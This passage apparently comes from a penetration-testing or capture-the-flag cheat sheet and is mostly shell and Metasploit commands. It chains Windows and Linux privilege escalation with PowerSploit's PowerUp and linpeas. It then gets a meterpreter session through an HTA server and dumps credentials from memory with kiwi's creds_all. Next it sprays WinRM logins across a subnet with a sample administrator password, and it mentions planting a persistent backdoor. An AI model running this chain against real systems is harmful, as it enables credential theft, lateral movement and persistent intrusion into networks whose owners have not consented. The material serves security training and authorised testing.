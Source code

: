 ```bash
# Execute privilege escalation technique

# Phase 3: Windows privilege escalation
# Transfer PowerSploit to target
powershell -ep bypass
. .\PowerUp.ps1
Invoke-PrivescAudit
Get-UnattendedInstallFile
# Extract and decode discovered credentials

# Phase 4: Post-exploitation with elevated access
cd /root && cat flag                      # Collect Linux evidence
# OR create persistent backdoor with admin privileges (Windows)
```

### PowerSploit → Metasploit → Credential Harvesting Chain:
```bash
# Step 1: PowerSploit privilege escalation
Invoke-PrivescAudit
# Discover administrator credentials

# Step 2: Escalate and establish meterpreter session
# Use HTA server or other payload delivery method
msfconsole
use exploit/windows/misc/hta_server
exploit
# Execute on target as administrator

# Step 3: Advanced credential harvesting with admin access
load kiwi
creds_all                               # Extract all credentials from memory

# Step 4: Lateral movement using harvested credentials
use auxiliary/scanner/winrm/winrm_login
set RHOSTS 192.168.1.0/24
set USERNAME administrator  
set PASSWORD Admin@123
exploit                                # Test credentials across network
```

### Complete Multi-Platform Assessment Workflow:
```bash
# Multi-vector assessment workflow
./linpeas.sh                             # Automated Linux enumeration
find / -perm -4000 2>/dev/null          # Manual SUID search
sudo -l                                  # Manual sudo check
crontab -l && cat /etc/crontab          # Manual cron analysis

# Windows assessment
Invoke-PrivescAudit                      # PowerSploit comprehensive audit
Get-UnattendedInstallFile               # Unattended file search
Get-ModifiableService                   # Service misconfiguration check
# Combine automated and manual techniques for comprehensive assessment
```

---